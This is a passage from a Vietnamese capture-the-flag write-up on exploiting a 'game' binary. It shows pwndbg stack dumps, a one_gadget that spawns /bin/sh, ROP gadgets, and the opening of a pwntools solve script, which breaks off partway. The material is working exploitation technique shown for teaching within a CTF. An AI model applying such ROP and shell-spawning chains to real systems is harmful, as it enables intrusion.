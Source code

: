 ```
0xffffffffff600000 0xffffffffff601000 --xp     1000 0      [vsyscall]
pwndbg> tele 11
00:0000│ rsp 0x7ffc27246048 —▸ 0x561ea7c70846 ◂— jmp    0x561ea7c70858
01:0008│     0x7ffc27246050 —▸ 0x7ffc27246090 ◂— 0x1
02:0010│     0x7ffc27246058 —▸ 0x7f4bd0970000 ◂— 0x4141414141414101
03:0018│ rbp 0x7ffc27246060 —▸ 0x7ffc27246090 ◂— 0x1
04:0020│     0x7ffc27246068 —▸ 0x561ea7c7092a ◂— jmp    0x561ea7c7094b
05:0028│     0x7ffc27246070 ◂— 0x0
06:0030│     0x7ffc27246078 ◂— 0x88
07:0038│     0x7ffc27246080 —▸ 0x7f4bd0970000 ◂— 0x4141414141414101
08:0040│     0x7ffc27246088 ◂— 0xbce174f9be57d900
09:0048│     0x7ffc27246090 ◂— 0x1
0a:0050│     0x7ffc27246098 —▸ 0x7f4bd0724d90 (__libc_start_call_main+128) ◂— mov    edi, eax
pwndbg>
```

Nhìn vào trạng thái stack ở đây ta có thể thấy tại `0x7ffc27246058` và `0x7ffc27246080` chứa địa chỉ `0x7f4bd0970000`, `0x7f4bd0970000` nằm ở vị trí tuyến tính với địa chỉ của Libc, vì vậy có thể thực hiện các phép cộng trừ "byte-by-byte" để tạo ra các gadget hữu ích, còn địa chỉ `__libc_start_call_main+128` mình sẽ sửa thành one_gadget.

Ở đây thì mình tìm thấy một vài gadget hữu dụng có thể thỏa mãn điều kiện của one_gadget với stack layout hiện tại:

```
0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
  rbp == NULL || (u16)[rbp] == NULL

0x000000000010d56c : pop rcx ; pop rbx ; xor eax, eax ; pop rbp ; pop r12 ; ret

0x0000000000090529 : pop rdx ; pop rbx ; ret
```

Còn với return address mình sẽ sửa thành gadget `0x0000000000001016 : add rsp, 8 ; ret` để có thể return vào các gadget libc mà mình chuẩn bị sẵn.

Mình khá chắc đây không phải là intended solution. Bởi vì để thực hiện thì cách này có xác suất là 1/? tùy thuộc vào base của libc và base của binary, đôi khi các phép cộng hay trừ sẽ bị nhớ 1 hay trừ một vào đơn vị số liền kề bên trái khiến cho địa chỉ gadget sẽ sai.

Đây là script solve cho 2 bài trên của mình:

```python
from pwn import *

io = process('./game')
#gdb.attach(io, gdbscript='''
#        handle SIGALRM ignore
#        set follow-fork-mode parent
#        b memset
#        ''')
#io = remote('20.121.188.64', 31337)

io.sendline(b'1')
io.sendline(b'\x01'+b'A'*300)
io.sendline(b'-2147483648')
#pause()
io.sendline(b'-1')
io.sendline(b'3')

pl = b'>'*152
pl += b'-'*0x30
pl += b'>'
pl += b'-'*0x8
```